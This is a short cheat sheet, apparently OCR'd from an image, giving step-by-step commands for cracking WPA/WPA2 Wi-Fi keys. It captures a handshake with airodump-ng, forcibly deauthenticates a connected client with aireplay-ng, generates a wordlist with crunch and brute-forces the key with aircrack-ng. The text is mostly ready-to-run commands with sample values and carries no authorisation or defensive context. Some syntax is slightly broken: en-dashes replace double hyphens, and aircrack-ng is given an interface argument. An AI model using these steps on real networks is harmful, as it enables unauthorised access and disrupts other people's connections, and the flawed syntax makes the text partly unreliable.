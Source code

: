 1. Start airodump-ng on the target AP:
airodump-ng --channel [channel] --bssid [bssid] --write [file-name] [interface]
Ex: airodump-ng –channel 6 –bssid 11:22:33:44:55:66 –write out mon0


2. Wait for a client to connect to the AP, or deauthenticate a connected
client (if any) for a very short period of time so that their system will
connect back automatically:
aireplay-ng --deauth [number of deauth packets] -a [AP] -c [target] [interface]
Ex: aireplay-ng --deauth 1000 -a 11:22:33:44:55:66 -c 00:AA:11:22:33:44 mon0


3. to crack WPA/WPA2 is a list of passwords to guess, you can download a ready wordlist
from the internet (links attached) or create your own using a tool called crunch:
crunch [min] [max] [characters=lower|upper|numbers|symbols] -t [pattern] -o file
ex: crunch 6 8 123456!"£$% -o wordlist -t a@@@@b


4.use aircrack-ng to crack the key. It does this by combining each password in the wordlist 
with AP name (essid) to compute a Pairwise Master Key (PMK) using the pbkdf2 algorithm, the
PMK is the compared to the handshake file:
aircrack-ng [HANDSHAKE FILE] -w [WORDLIST] [INTERFACE]
ex: aircrack-ng is-01.cap -w list mon0